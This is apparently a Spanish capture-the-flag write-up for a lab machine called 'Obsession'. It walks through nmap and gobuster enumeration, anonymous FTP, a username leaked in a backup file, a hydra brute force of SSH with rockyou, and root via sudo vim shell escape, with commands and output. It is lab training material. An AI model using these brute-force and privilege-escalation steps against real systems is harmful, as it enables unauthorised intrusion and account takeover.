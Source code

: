 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Obsession

Realizando un escaneo con `nmap` vemos lo siguiente:

```bash
nmap -sC -sV $IPTARGET
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
|_  256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Para empezar, nos interesa el servicio `FTP` y `HTTP`.

Si accedemos al navegador para ver qué página aloja, nos encontramos con una página de un nutricionista. Si nos vamos al final de la página, encontramos este formulario:

<figure><img src="../../.gitbook/assets/Pasted image 20250722023218.png" alt=""><figcaption></figcaption></figure>

Si mandamos una solicitud, nos redirecciona a la siguiente página

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722023326.png" alt=""><figcaption></figcaption></figure></div>

cuya URL es

```http
http://172.17.0.2/.formrellyrespexit.html?nombre=example&apellido=example2&telefono=123456&email=example&somatotipo=Hectomorfo&llamada+a+la+accion=CAMBIAR+MI+VIDA+A+MEJOR+AHORA&campaign=BLACKFRIDAY
```

De momento, esto lo dejaremos así. Vamos a ver qué hay en el `FTP` con usuario `anonymous`:

<figure><img src="../../.gitbook/assets/Pasted image 20250722023857.png" alt=""><figcaption></figcaption></figure>

Vemos, primero, una conversación entre pervertidos, y en otro fichero, una lista de cosas pendientes donde menciona que no tiene bien gestionados los permisos, pero eso nos servirá para después.

Ojeando el código `HTML` de la página web, encuentro con este comentario:

```html
<!-- -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente ---->
```

Realizando un escaneo de directorios de la web, me encuentro con lo siguiente:

```bash
gobuster dir -u http://$IPTARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 5208]
/backup               (Status: 301) [Size: 309] [--> http://172.17.0.2/backup/]
/important            (Status: 301) [Size: 312] [--> http://172.17.0.2/important/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

En `/backup` tenemos un directory listing que nos muestra un fichero, `backup.txt`:

```
Usuario para todos mis servicios: russoski (cambiar pronto!)
```

En `/important` hay otro directory listing, con el fichero `important.md`:

```markdown
-------------------------------------------------------

MANIFIESTO HACKER
La Conciencia de un Hacker 

Uno más ha sido capturado hoy, está en todos los periódicos.

"Joven arrestado en Escándalo de Crimen por Computadora", "Hacker arrestado luego de traspasar las barreras de seguridad de un banco.." 

Malditos muchachos. Todos son iguales. Pero tú, en tu psicologí­a de tres partes y tu tecnocerebro de 1950, has alguna vez observado detrás de los ojos de un Hacker?

Alguna vez te has preguntado qué lo mueve, qué fuerzas lo han formado, cuáles lo pudieron haber moldeado?

Soy un Hacker, entra a mi mundo..

El mÃ­o es un mundo que comienza en la escuela.. Soy más inteligente que la mayorí­a de los otros muchachos, esa basura que ellos nos enseÃ±an me aburre..

Malditos sub realizados. Son todos iguales.

Estoy en la preparatoria. He escuchado a los profesores explicar por decimoquinta vez como reducir una fracción. Yo lo entiendo.

"No, Srta. Smith, no le voy a mostrar mi trabajo, lo hice en mi mente..
"Maldito muchacho. Probablemente se lo copió. Todos son iguales.

Hoy hice un descubrimiento. Encontré una computadora. Espera un momento, esto es lo máximo.
Esto hace lo que yo le pida. Si comete un error es porque yo me equivoqué.

No porque no le gustó.. o se siente amenazada por mí­.. o piensa que soy un engreído.. o no le gusta enseñar y no deberí­a estar aquí­.. Maldito muchacho. Todo lo que hace es jugar. Todos son iguales.

Y entonces ocurrió.. una puerta abierta al mundo.. corriendo a través de las lineas telefónicas como la heroí­na a través de las venas de un adicto, se envía un pulso electrónico, un refugio para las incompetencias del dí­a a dí­a es buscado.. una tabla de salvación es encontrada.

--------------------------------------------------------
```

Una vez tenemos el usuario `russoski`, intentamos acceder por fuerza bruta al `ssh`:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
```

Si revisamos los permisos con `sudo -l`, nos encontramos con que tenemos permiso para el binario `/usr/bin/vim`. En [gtfobins](https://gtfobins.github.io/gtfobins) vemos que se puede explotar este binario si tenemos permiso con `sudo`:

```bash
sudo vim -c ':!/bin/sh'
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722031509.png" alt=""><figcaption></figcaption></figure></div>
